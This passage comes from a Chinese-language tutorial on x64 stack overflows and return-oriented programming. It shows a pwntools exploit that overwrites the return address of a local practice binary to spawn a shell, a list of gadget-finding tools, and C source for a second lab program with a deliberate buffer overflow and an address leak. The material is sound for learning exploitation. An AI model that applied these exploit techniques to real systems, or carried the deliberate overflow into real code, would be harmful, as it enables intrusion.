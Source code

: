 可以看到我们已经成功的控制了PC的指针了。所以最终的exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive() 
```

## 0x03使用工具寻找gadgets

我们之前提到x86中参数都是保存在栈上,但在x64中前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于 `pop rdi; ret` 的这种gadget。如果是简单的gadgets，我们可以通过objdump来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。比较有名的工具有：

```
ROPEME: https://github.com/packz/ropeme
Ropper: https://github.com/sashs/Ropper
ROPgadget: https://github.com/JonathanSalwan/ROPgadget/tree/master
rp++: https://github.com/0vercl0k/rp 
```

这些工具功能上都差不多，找一款自己能用的惯的即可。

下面我们结合例子来讲解，首先来看一下目标程序level4.c的源码：

```
#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
void systemaddr() {
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
} 

```
